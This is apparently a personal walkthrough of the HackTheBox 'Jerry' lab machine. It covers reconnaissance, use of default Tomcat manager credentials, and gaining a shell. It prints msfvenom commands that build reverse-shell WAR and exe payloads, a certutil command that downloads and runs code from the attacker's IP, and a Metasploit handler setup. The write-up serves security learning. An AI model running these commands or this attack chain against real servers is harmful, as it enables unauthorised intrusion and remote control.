



## Reconnaissance

### nmap 

![]](./IMG/0.png)


### Web Service 


### Gobuster 


### Web Service 

> Following the result from gobuster, I can find the following page.

> host-manager


> /manager -> redirect to /manager/html 
> Shoe the following error message 


> It show a credenetial 

```
tomcat / s3cret
```



> Check the request in burpSuite
> It uses basic authentication in request header


> Modify the base64 content to tomcat / s3cret
> I can access to a management page



## Exploit 

> So far, I have exploit the login for management page
> Enumerate this page
> I found a upload function which used to deploy a new page / a new function to this site
> It seems only accepta WAR file 


> Research apache tomcat from HackTricks
> If I want to execute RCE, I need to create a war file 

- [(HackTricks)Tomcat](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)


> Create a malicious war file by msfvenom 
> I found 2 differnets payload, so I generate 2 different war file 

```
msfvenom -p java/shell_reverse_tcp LHOST=10.10.17.145 LPORT=443 -f war -o rev.war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.17.145 LPORT=443 -f war -o rev2.war
```


 > In here, I think the 1st one works well 
 
 





> So far, I can get the reverse shell and it's system admin


> But I'm not able to read flags, it can't display anything (even error message)


> Get all flag 


----- 


> At first, I can't read the flag file properly,
> So, I tried a lot of things.
> such as change to powershell, it also failed and stuck 


> I  also tried to upload another windows backdoor 
> But it can't success by iwr or IRX 
> The successful step as follow: 

1. Create  another windows reverse shell executable file 

```
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.17.145 LPORT=1339 -f exe > rev.exe
```

>  using certutil to upload

```
certutil -urlcache -split -f http://10.10.17.145/rev.exe rev.exe
```


> Execute it and using msfconsole to catch the shell 

```
use multi/handler
set LPORT 1339
exploit
```

> It should success to get another shell 

## Reference 
### Write up

- [HackTheBox Writeup— Jerry](https://arkanoidctf.medium.com/hackthebox-writeup-jerry-aa2b992917a7)
- [(Video)Hacking HTB Jerry - OSCP TJNull's List - Exploiting Apache Tomcat/Coyote JSP Engine](https://www.youtube.com/watch?v=IVJgKzqpTXo)
- [Jerry: Hack the Box Walkthrough](https://medium.com/@ann_17/jerry-hack-the-box-walkthrough-f0641b1c53c6)
- [ HackTheBox | Jerry](https://benheater.com/hackthebox-jerry/)
### Tomcat 

- [(HackTricks)Tomcat](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)
- [Apache Tomcat Manager .war reverse shell](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)
- [tomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer)
- [Apache Tomcat Default Credentials](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)
###### tags: `HackTheBox`